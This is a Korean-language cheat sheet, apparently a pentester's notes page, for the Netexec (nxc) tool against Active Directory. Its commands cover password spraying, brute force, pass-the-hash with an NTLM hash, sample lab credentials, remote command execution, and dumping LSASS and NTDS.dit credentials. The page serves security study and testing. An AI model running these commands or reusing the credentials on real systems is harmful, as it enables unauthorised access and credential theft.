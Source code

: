 ```yaml
---
layout: page
title: netexec
description: >
  This chapter covers the basics of content creation with Hydejack.
hide_description: true
sitemap: false
---
```


# Netexec (nxc) 활용 가이드

Netexec(구 CrackMapExec)은 대규모 네트워크 환경에서 인증 정보를 테스트하고, 시스템을 열거하며, 원격으로 명령을 실행하는 데 사용되는 매우 강력한 자동화 도구입니다. 특히 Active Directory 환경에서 대단히 효율적입니다.

---

### **1. 기본 사용법 및 인증 테스트**

- **목표:** 단일 또는 다수의 시스템을 대상으로 주어진 인증 정보가 유효한지 확인합니다.
- **기본 구문:** `netexec <protocol> <targets> -u <user> -p <password>`

```bash
# SMB 프로토콜을 통해 익명으로 접속하여 기본 정보(OS, 도메인 등) 확인
netexec smb $target
```

```bash
# 특정 사용자와 비밀번호로 SMB 로그인을 시도하고, 성공 시 "(Pwned!)"가 표시됨
netexec smb $target -u 't-skid' -p 'tj072889*'
```

```bash
# 비밀번호 대신 NTLM 해시를 사용하여 인증
netexec smb $target -u 'Administrator' -H 'aad3b435b51404eeaad3b435b51404ee:c2597747aa5e43022a3a3049a3c3b09d'
```

---

### **2. 대규모 인증 테스트 (Password Spraying & Brute-force)**

- **목표:** 사용자 목록과 비밀번호 목록을 이용해 대규모 인증을 시도하여 유효한 자격증명 조합을 찾아냅니다.

```bash
# 여러 사용자에게 하나의 비밀번호를 대입
# --continue-on-success: 성공해도 멈추지 않고 계속 진행
netexec smb $target -u users.txt -p 'ResetMe123!' --continue-on-success
```

```bash
# 하나의 사용자에게 여러 비밀번호를 대입 (계정 잠금 정책 주의!)
netexec smb $target -u 'Jareth' -p /usr/share/wordlists/rockyou.txt --ignore-pw-decoding
```

---

### **3. 정보 수집 모듈**

- **목표:** 인증 성공 후, `--<module>` 옵션을 사용하여 특정 정보를 수집합니다.

```bash
# 공유 폴더 목록 및 권한 확인
netexec smb $target -u <user> -p <pass> --shares

# 유저 리스트, 설명
netexec smb $target -u <user> -p <pass> --users

# 패스워드 정책 확인
netexec smb $target -u <user> -p <pass> --pass-pol

# RID Cycling을 통해 도메인 사용자 목록 덤프
netexec smb $target -u <user> -p <pass> --rid-brute

# BloodHound 데이터 수집
netexec smb $target -u <user> -p <pass> --bloodhound -c all
```

---

### **4. 원격 명령어 실행**

- **목표:** 유효한 자격증명을 사용하여 원격 시스템에서 명령어를 실행합니다.

```bash
# -x <command>: 원격으로 cmd 명령어를 실행
netexec smb $target -u <user> -p <pass> -x 'whoami'

# -X <ps_command>: 원격으로 PowerShell 명령어를 실행
netexec smb $target -u <user> -p <pass> -X '$PSVersionTable'
```

```bash
# -M <module_name>: 다양한 기능을 가진 내장 모듈 실행

# lsassy 모듈로 LSASS 프로세스 덤프 시도
netexec smb $target -u <user> -p <pass> -M lsassy

# ntdsutil 모듈로 NTDS.dit 파일 덤프 시도 (DC 대상)
netexec smb $DC_IP -u <DA_user> -p <pass> -M ntdsutil
```

> **지원 프로토콜:** `smb` 외에도 `winrm`, `rdp`, `ldap`, `ssh`, `mssql` 등 다양한 프로토콜을 지원하여 여러 환경에서 활용할 수 있습니다.


